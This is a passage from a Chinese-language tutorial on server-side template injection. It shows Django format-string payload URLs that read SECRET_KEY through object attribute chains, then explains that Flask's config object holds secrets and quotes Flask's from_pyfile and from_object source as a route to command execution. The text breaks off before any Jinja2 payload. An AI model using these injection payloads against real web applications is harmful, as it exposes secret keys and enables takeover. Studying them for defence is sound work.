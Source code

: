 **payload:**

http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY} http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY} 

##### **2.Flask/Jinja2**

config 是Flask模版中的一个全局对象，它代表“当前配置对象(flask.config)”，它是一个类字典的对象，它包含了所有应用程序的配置值。在大多数情况下，它包含了比如数据库链接字符串，连接到第三方的凭证，SECRET_KEY等敏感值。虽然config是一个类字典对象，但是通过查阅文档可以发现 config 有很多神奇的方法：from_envvar, from_object, from_pyfile, 以及root_path。

**如图所示：**

[![img](assets/1667436024508-80fff23c-c85b-4c22-9f30-6d9cc39ed3f1.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/flask-config.png)这里我们利用 from_pyfile 和 from_object 来命令执行，下面是这两个函数的源代码（为了阅读清晰，注释我删除了）

**源码：**

```python
def from_pyfile(self, filename, silent=False):

    filename = os.path.join(self.root_path, filename)
    d = types.ModuleType('config')
    d.__file__ = filename
    try:
        with open(filename) as config_file:
            exec(compile(config_file.read(), filename, 'exec'), d.__dict__)
    except IOError as e:
        if silent and e.errno in (errno.ENOENT, errno.EISDIR):
            return False
        e.strerror = 'Unable to load configuration file (%s)' % e.strerror
        raise
    self.from_object(d)
    return True


def from_object(self, obj):

    if isinstance(obj, string_types):
        obj = import_string(obj)
    for key in dir(obj):
        if key.isupper():
            self[key] = getattr(obj, key)
```
